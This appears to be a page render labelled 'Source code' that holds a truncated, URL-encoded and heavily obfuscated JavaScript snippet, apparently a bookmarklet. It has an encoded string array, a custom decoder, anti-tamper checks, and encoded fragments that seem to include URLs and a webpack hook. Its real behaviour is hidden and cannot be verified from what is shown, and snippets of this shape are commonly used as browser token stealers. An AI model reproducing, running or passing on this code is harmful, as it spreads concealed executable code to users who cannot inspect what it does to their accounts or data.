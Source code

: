 if(_0x5f96%5B'Zvfcsr'%5D%3D%3D%3Dundefined)%7Bvar%20_0x413392%3Dfunction(_0xb42e98)%7Bconst%20_0x33ef92%3D'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789%2B%2F%3D'%3Blet%20_0x1d344d%3D''%2C_0x53cfca%3D''%2C_0x5ae31c%3D_0x1d344d%2B_0x413392%3Bfor(let%20_0x5d7047%3D-0x413*0x5%2B-0x217%2B0x73*0x32%2C_0x3560b5%2C_0x4b8b91%2C_0x1f1c9d%3D0x1f6*-0xb%2B0x1354*-0x1%2B0x28e6%3B_0x4b8b91%3D_0xb42e98%5B'charAt'%5D(_0x1f1c9d%2B%2B)%3B~_0x4b8b91%26%26(_0x3560b5%3D_0x5d7047%25(0x1*-0x1d69%2B0x1867%2B0x506)%3F_0x3560b5*(-0x2349%2B0xe58%2B0x1531)%2B_0x4b8b91%3A_0x4b8b91%2C_0x5d7047%2B%2B%25(-0x1fc*0x3%2B-0xb7%2B-0x6af*-0x1))%3F_0x1d344d%2B%3D_0x5ae31c%5B'charCodeAt'%5D(_0x1f1c9d%2B(0x24a%2B-0x919%2B-0x1*-0x6d9))-(-0x9bd%2B0x72e%2B0x299)!%3D%3D-0x277*0xb%2B0xe4b*0x2%2B-0xd*0x1d%3FString%5B'fromCharCode'%5D(-0x2618%2B-0x7*-0x24d%2B0x16fc%26_0x3560b5%3E%3E(-(-0x13f*0x15%2B0x11*0x71%2B0x12ac)*_0x5d7047%260x1e9d%2B-0x1604%2B-0x1*0x893))%3A_0x5d7047%3A0x12*-0x8d%2B0x163c*0x1%2B0x13*-0xa6)%7B_0x4b8b91%3D_0x33ef92%5B'indexOf'%5D(_0x4b8b91)%3B%7Dfor(let%20_0x21e099%3D0x22d*0x11%2B-0xca9%2B0x615*-0x4%2C_0x2191fa%3D_0x1d344d%5B'length'%5D%3B_0x21e099%3C_0x2191fa%3B_0x21e099%2B%2B)%7B_0x53cfca%2B%3D'%25'%2B('00'%2B_0x1d344d%5B'charCodeAt'%5D(_0x21e099)%5B'toString'%5D(-0x609%2B-0x12*0xf1%2B-0x11*-0x15b))%5B'slice'%5D(-(-0xb*0x18d%2B-0x266*0x1%2B-0x1377*-0x1))%3B%7Dreturn%20decodeURIComponent(_0x53cfca)%3B%7D%3B_0x5f96%5B'qRAjON'%5D%3D_0x413392%2C_0x3f8d81%3Darguments%2C_0x5f96%5B'Zvfcsr'%5D%3D!!%5B%5D%3B%7Dconst%20_0x14c54b%3D_0x46790b%5B0x56f%2B0x2240%2B-0x27af%5D%2C_0x1d66ec%3D_0x308984%2B_0x14c54b%2C_0x4461bc%3D_0x3f8d81%5B_0x1d66ec%5D%3Bif(!_0x4461bc)%7Bconst%20_0x31be3d%3Dfunction(_0x226d52)%7Bthis%5B'XndEOb'%5D%3D_0x226d52%2Cthis%5B'pWeHOo'%5D%3D%5B-0xe02%2B0x1866%2B-0xa63%2C-0x1dc9%2B0x4*0x8d4%2B-0x587%2C-0x62*0x1%2B-0x19f*0x5%2B0x1*0x87d%5D%2Cthis%5B'fqIrNP'%5D%3Dfunction()%7Breturn'newState'%3B%7D%2Cthis%5B'ChaUdl'%5D%3D'%5Cx5cw%2B%5Cx20*%5Cx5c(%5Cx5c)%5Cx20*%7B%5Cx5cw%2B%5Cx20*'%2Cthis%5B'mMRNfT'%5D%3D'%5B%5Cx27%7C%5Cx22%5D.%2B%5B%5Cx27%7C%5Cx22%5D%3B%3F%5Cx20*%7D'%3B%7D%3B_0x31be3d%5B'prototype'%5D%5B'VSAdzW'%5D%3Dfunction()%7Bconst%20_0x3f09e3%3Dnew%20RegExp(this%5B'ChaUdl'%5D%2Bthis%5B'mMRNfT'%5D)%2C_0x442769%3D_0x3f09e3%5B'test'%5D(this%5B'fqIrNP'%5D%5B'toString'%5D())%3F--this%5B'pWeHOo'%5D%5B-0x2*0xcf2%2B-0x1f7*-0x11%2B-0x782%5D%3A--this%5B'pWeHOo'%5D%5B-0x6*0x17%2B0x1804%2B-0x177a%5D%3Breturn%20this%5B'iCYgeS'%5D(_0x442769)%3B%7D%2C_0x31be3d%5B'prototype'%5D%5B'iCYgeS'%5D%3Dfunction(_0x5d4987)%7Bif(!Boolean(~_0x5d4987))return%20_0x5d4987%3Breturn%20this%5B'SvlGou'%5D(this%5B'XndEOb'%5D)%3B%7D%2C_0x31be3d%5B'prototype'%5D%5B'SvlGou'%5D%3Dfunction(_0x5affc9)%7Bfor(let%20_0x1acdc3%3D-0x1965*0x1%2B0xec*0x7%2B-0x1*-0x12f1%2C_0x16e90c%3Dthis%5B'pWeHOo'%5D%5B'length'%5D%3B_0x1acdc3%3C_0x16e90c%3B_0x1acdc3%2B%2B)%7Bthis%5B'pWeHOo'%5D%5B'push'%5D(Math%5B'round'%5D(Math%5B'random'%5D()))%2C_0x16e90c%3Dthis%5B'pWeHOo'%5D%5B'length'%5D%3B%7Dreturn%20_0x5affc9(this%5B'pWeHOo'%5D%5B0x220e%2B-0x1d81%2B-0x48d%5D)%3B%7D%2Cnew%20_0x31be3d(_0x5f96)%5B'VSAdzW'%5D()%2C_0x57dcfe%3D_0x5f96%5B'qRAjON'%5D(_0x57dcfe)%2C_0x3f8d81%5B_0x1d66ec%5D%3D_0x57dcfe%3B%7Delse%20_0x57dcfe%3D_0x4461bc%3Breturn%20_0x57dcfe%3B%7D%2C_0x5f96(_0x3f8d81%2C_0x4682c)%3B%7D(function(_0x481854%2C_0x2b333e)%7Bconst%20_0x2f5d5a%3D_0x481854()%3Bfunction%20_0x132b4e(_0x31e812%2C_0x179ec0%2C_0x402e1c%2C_0x20c90b)%7Breturn%20_0x5f96(_0x402e1c-0x72%2C_0x20c90b)%3B%7Dfunction%20_0x305112(_0x3422f9%2C_0x2c7a2e%2C_0x4e8ba7%2C_0x2734ed)%7Breturn%20_0x5f96(_0x2c7a2e-0x1f6%2C_0x4e8ba7)%3B%7Dwhile(!!%5B%5D)%7Btry%7Bconst%20_0xe82ae6%3D-parseInt(_0x305112(0x420%2C0x422%2C0x461%2C0x499))%2F(-0x554%2B-0x17fe%2B-0x1*-0x1d53)%2B-parseInt(_0x132b4e(0x26b%2C0x298%2C0x2d0%2C0x322))%2F(-0xb*0x283%2B-0x16d0%2B0x735*0x7)%2BparseInt(_0x305112(0x4a0%2C0x459%2C0x422%2C0x4a7))%2F(-0x2361*0x1%2B-0x1fc*0x1%2B0x2560)*(parseInt(_0x132b4e(0x33d%2C0x313%2C0x2c5%2C0x2c5))%2F(0x254c%2B-0x235f%2B-0x1e9))%2B-parseInt(_0x305112(0x433%2C0x42b%2C0x42b%2C0x466))%2F(-0x42d*-0x3%2B-0x356*0x6%2B0x782)%2B-parseInt(_0x305112(0x3c1%2C0x397%2C0x3d7%2C0x3ad))%2F(0x2*-0x68b%2B-0x24cf%2B0x31eb)*(parseInt(_0x132b4e(0x2d3%2C0x28d%2C0x2d8%2C0x328))%2F(-0x17f5%2B-0x3*-0xcfb%2B-0xef5))%2BparseInt(_0x305112(0x3f6%2C0x41d%2C0x3c2%2C0x3ce))%2F(-0x1eaa%2B0x24fc%2B-0x64a)%2BparseInt(_0x305112(0x48c%2C0x432%2C0x418%2C0x479))%2F(-0x46c%2B0x1*-0xd91%2B0x301*0x6)*(parseInt(_0x132b4e(0x21a%2C0x23f%2C0x247%2C0x1fc))%2F(0xf*-0x1b1%2B0x1aad%2B-0x144))%3Bif(_0xe82ae6%3D%3D%3D_0x2b333e)break%3Belse%20_0x2f5d5a%5B'push'%5D(_0x2f5d5a%5B'shift'%5D())%3B%7Dcatch(_0x1eb087)%7B_0x2f5d5a%5B'push'%5D(_0x2f5d5a%5B'shift'%5D())%3B%7D%7D%7D(_0x4f0c%2C0xe3ead*0x1%2B-0x71502%2B0x4*0xd678))%3Bfunction%20_0x4f0c()%7Bconst%20_0x10d6eb%3D%5B'C3vIDgXL'%2C'y29Tl2fWAs91CW'%2C'Dg9W'%2C'rePJDeW'%2C'iJ50D2L0DgvYpa'%2C'EKXXvvm'%2C'vM9lr1a'%2C'ihzLCNnPB24%2F'%2C'kcGOlISPkYKRkq'%2C'Ahr0Chm6lY93DW'%2C'Agn4zKO'%2C'CKXdvxa'%2C'zxzLBNq'%2C'txvdB0C'%2C'mZi1oe9uA0zxBG'%2C'B2zMC2v0vg9W'%2C'A2v5CW'%2C'ywDL'%2C'EKPltwm'%2C'AgnIzvO'%2C'C0XjvMO'%2C't2fHseC'%2C'r3frqxa'%2C'CM4GDgHPCYiPka'%2C'v1DUBfy'%2C'yxbWBhK'%2C'Aw5MBW'%2C'y29SB3i6ihjNyG'%2C'Aw5Uzxjive1m'%2C'AdOGmtC1ChG7ia'%2C'D2vICgfJA0PZBW'%2C'ptaUosXYDtTXpq'%2C'twf4ihrVA2vUCW'%2C'ihrLEhqTywXPzW'%2C'yMXVB2TLDej1Aq'%2C'l2e%2Bpc9WpG'%2C'CMvKDwnL'%2C'igHYzwy9iMH0Da'%2C'zw4TvvmSzw47Cq'%2C'C0v1sKC'%2C'Dgv4Dc9WBgfPBG'%2C'uuvMsNu'%2C'zw50'%2C'zxjZl2fKzc1Yzq'%2C'Ag9VBgnOzwf0CW'%2C'zxHJzxb0Aw9U'%2C'Chm6lY90D2L0Da'%2C'thjsEvy'%2C'y2XPzw50wa'%2C'wK1tuwq'%2C'lM5LDc9IBg9VAW'%2C'v1PgyNK'%2C'Ahr0Chm6lY9HCa'%2C'oYbOzwLNAhq6ia'%2C'rLLtELC'%2C'CMLMoYbMB250lq'%2C'BgvMDa'%2C'wNrlEMK'%2C'yM9KEq'%2C'EtOGiK51BML0BW'%2C'BwfW'%2C'z2v0uMfUzg9TvG'%2C'zxqV'%2C'BMfTzq'%2C's1H2vxy'%2C'ywX1zxm'%2C'mZy0otbkywTpDvu'%2C'wvzTzwC'%2C'rvfKCuG'%2C'BI9QC29Ulcb0zq'%2C'tNjIr1y'%2C'C2rVrM8'%2C'CM91BMq6ihjNyG'%2C'zw5JB2rL'%2C'rwjUy0O'%2C'vLjqt2u'%2C'CMf3'%2C'zsbKyx